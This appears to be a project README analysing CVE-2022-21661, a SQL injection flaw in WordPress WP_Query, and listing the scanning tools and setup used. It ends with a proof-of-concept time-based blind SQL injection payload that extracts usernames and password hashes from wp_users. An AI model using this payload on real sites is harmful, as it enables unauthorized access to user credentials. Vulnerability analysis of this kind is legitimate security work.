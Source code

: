 # WordPress Security: CVE-2022-21661 Vulnerability Analysis

![WordPress Logo](https://upload.wikimedia.org/wikipedia/commons/9/98/WordPress_blue_logo.svg)

This project is a security-focused analysis of **CVE-2022-21661**, a critical SQL injection vulnerability in WordPress Core (versions < 5.8.3). The study includes in-depth technical dissection, static and dynamic vulnerability assessments, and a proof-of-concept exploit to demonstrate the impact.

---


- Understand typical security challenges in open-source platforms like WordPress.
- Analyze CVE-2022-21661: its origin, attack vector, and exploitation potential.
- Emphasize the importance of secure coding, vulnerability patching, and responsible disclosure.

---

Technical Summary

- Vulnerability:** SQL Injection via `WP_Query` due to improper input validation in `clean_query()`
- Affected Versions:** WordPress < 5.8.3
- CVSS Score:** 7.5 (High)
- Exploitation Vector:** Remote attackers can inject SQL through third-party plugins using the WP_Query interface.
- Impact: Unauthorized data access, potential data corruption, and full system compromise.

---

Tools & Techniques

 Analysis Methods
- Static Analysis:** SonarQube, PHP_CodeSniffer
- Dynamic Analysis:** OWASP ZAP, Wapiti
- Software Composition Analysis:** WPScan, Wordfence, OWASP Dependency-Check

Automation
- Automated the process by setting up the environment using the Composer package manager specific to wordpress.
- Configured the website and plugins using wpcli and configure.sh
- Collect and organize the results into a json file using result_scan.py


Tools Used
| Tool | Purpose |
|------|---------|
| WPScan | Identify core/plugin vulnerabilities |
| Wordfence | Detect real-time threats |
| Dependency-Check | Analyze plugin dependencies |
| SonarQube | Static code security review |
| PHP_CodeSniffer | Enforce WP coding standards |
| OWASP ZAP | Runtime vulnerability detection |

---

Exploit Proof-of-Concept

A time-based blind SQL injection attack was demonstrated using a crafted payload via AJAX endpoint. The script uses latency to infer character-by-character data extraction from the WordPress `wp_users` table.

```python
payload = {
    "tax_query": {
        "0": {
            "field": "term_taxonomy_id",
            "terms": [
                "(CASE WHEN (SELECT SUBSTRING((SELECT GROUP_CONCAT(id, ':', user_login, ':', user_pass, ',') FROM wp_users), %d, 1) = '%s') THEN SLEEP(5) ELSE 2070 END)"
            ]
        }
    }
}
